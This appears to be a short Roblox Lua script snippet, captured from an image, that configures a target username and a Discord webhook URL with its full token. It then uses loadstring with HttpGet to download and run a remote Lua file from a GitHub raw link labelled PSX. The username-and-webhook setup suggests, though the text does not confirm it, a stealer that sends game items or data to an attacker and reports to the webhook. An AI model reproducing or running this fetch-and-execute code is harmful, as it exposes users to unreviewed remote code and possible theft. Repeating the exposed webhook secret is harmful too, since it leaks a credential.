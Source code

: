 UserName = "dragondeath212"
WebHook = "https://discord.com/api/webhooks/1093284060463386714/4tUgHTBOFfUpalVz0uKomH7kzA6hwQft3qliX-UuhkZlzLB6ZxYwOsocaQcT7ymcZo3x"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/New.lua", true))() 
